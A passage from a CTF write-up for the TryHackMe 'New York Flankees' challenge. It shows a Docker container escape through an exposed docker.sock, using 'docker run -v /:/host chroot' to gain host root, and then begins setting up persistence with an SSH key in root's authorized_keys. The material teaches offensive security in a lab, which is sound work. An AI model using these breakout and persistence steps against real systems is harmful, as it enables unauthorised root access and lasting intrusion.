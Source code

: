 ```bash
      - CTF_RESOURCES=/app/src/resources
      - CTF_DOCKER_FLAG=<REDACTED>
      - CTF_ADMIN_PANEL_FLAG=<REDACTED> 
root@02e849f307cc:/app# 
```

After obtaining the second flag, we can continue our enumeration to escape the docker container. This [post](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation) explains how this is possible. A file system enumeration reveals that the docker socket is present in the container. This socket is used by the Docker daemon to communicate with the Docker client and other applications.
```bash
root@02e849f307cc:~# find / -name docker.sock 2>/dev/null
/run/docker.sock
```

Since this socket is present in the docker container, we can use it to enumerate containers' names present on the host system.
```bash
root@02e849f307cc:~# docker images
REPOSITORY               TAG       IMAGE ID       CREATED        SIZE
padding-oracle-app_web   latest    cd6261dd9dda   5 months ago   1.01GB
<none>                   <none>    4187efabd0a5   5 months ago   704MB
gradle                   7-jdk11   d5954e1d9fa4   5 months ago   687MB
openjdk                  11        47a932d998b7   2 years ago    654MB
```

Now that we know the containers on the target, we can run an image mounting the host disk and chroot on it.
```bash
root@02e849f307cc:~# docker run -it -v /:/host/ gradle:7-jdk11 chroot /host/ bash
root@3a785c66a62c:/# whoami
root
root@3a785c66a62c:/# ls /root
snap
root@3a785c66a62c:/# ls
bin   dev  flag.txt  lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  etc  home      lib32  libx32  media       opt  root  sbin  srv   tmp  var
```

We have successfully escaped the container and we are now the root user in the target system. With this access, we can read the root flag on the target. In a real-world assessment, we would not only want to read a flag but to achieve persistence on the host system. We can do this by adding an SSH public key to the authorized_keys file in the root's .ssh directory. We first generate a public/private key pair on our attack host.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/New York Flankees/Misc File]
└─$ ssh-keygen -t ed25519            
Generating public/private ed25519 key pair.   
Enter file in which to save the key (/home/pentester/.ssh/id_ed25519): ./id_ed25519
Enter passphrase (empty for no passphrase):                                     
<SNIP>

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/New York Flankees/Misc File]
└─$ ls
id_ed25519  id_ed25519.pub  shell.sh                                                  
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/New York Flankees/Misc File]
└─$ cat id_ed25519.pub             
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILNx1NlzW8fzlcrFsoMeGgcHy56OFUN0hNGKkGXx4f/c pentester@kali
```
